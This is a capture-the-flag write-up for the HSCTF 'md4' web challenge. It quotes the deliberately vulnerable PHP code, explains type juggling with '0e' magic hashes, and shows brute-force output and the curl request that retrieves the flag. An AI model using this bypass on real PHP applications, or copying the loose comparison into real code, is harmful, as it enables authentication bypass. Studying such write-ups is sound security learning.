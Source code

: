 We are given following challenge url - https://md4.web.chal.hsctf.com/index.php . Visiting it, we get displayed source code logic.
```
<?php
$flag = file_get_contents("/flag");

if (!isset($_GET["md4"]))
{
    highlight_file(__FILE__);
    die();
}

if ($_GET["md4"] == hash("md4", $_GET["md4"]))
{
    echo $flag;
}
else
{
    echo "bad";
}
?>
```
Notice the `$_GET["md4"] == hash("md4", $_GET["md4"])`. It's well known that `==` equality operator in PHP is vulnerable to type-juggling injection as it only compares values of variables, and not their data types.
```
$ php -a
<?php
if("0" == "0e12") {
    echo "lul";
}
?>

lul
```
> When comparing a string to a number, PHP will attempt to convert the string to a number then perform a numeric comparison.
> It gets weirder... If PHP decides that both operands look like numbers, even if they are actually strings, it will convert them both and perform a numeric comparison.

We know that our challenge needs a `md4` parameter in url query, and then it loosely-comapres that value with it's md4 hash. So what we need to do this find a string with prefix "0e" that results in a md4 hash wtih "0e" as well, so we can bypass with type-juggling.

I wrote this [script](./data/crack_md4.py) to do a bruteforce search for the solution. Running the script for a couple of minutes gave us the desired string.
```
$ python crack_md4.py
[+] current value: 0e9999999       10000000 iterations, continue...
[+] current value: 0e19999999       20000000 iterations, continue...
[+] current value: 0e29999999       30000000 iterations, continue...
[+] current value: 0e39999999       40000000 iterations, continue...
[+] current value: 0e49999999       50000000 iterations, continue...
[+] current value: 0e59999999       60000000 iterations, continue...
[+] current value: 0e69999999       70000000 iterations, continue...
[+] current value: 0e79999999       80000000 iterations, continue...
[+] current value: 0e89999999       90000000 iterations, continue...
[+] current value: 0e99999999       100000000 iterations, continue...
[+] current value: 0e109999999       110000000 iterations, continue...
[+] current value: 0e119999999       120000000 iterations, continue...
[+] current value: 0e129999999       130000000 iterations, continue...
[+] current value: 0e139999999       140000000 iterations, continue...
[+] current value: 0e149999999       150000000 iterations, continue...
[+] current value: 0e159999999       160000000 iterations, continue...
[+] current value: 0e169999999       170000000 iterations, continue...
[+] current value: 0e179999999       180000000 iterations, continue...
[+] current value: 0e189999999       190000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e219999999       220000000 iterations, continue...
[+] current value: 0e229999999       230000000 iterations, continue...
[+] current value: 0e239999999       240000000 iterations, continue...
[+] current value: 0e249999999       250000000 iterations, continue...
[+] found! md4( 0e251288019 ) ---> 0e874956163641961271069404332409
[+] in 251288020 iterations

$ curl https://md4.web.chal.hsctf.com/index.php?md4=0e251288019
hsctf{php_type_juggling_is_fun}
```
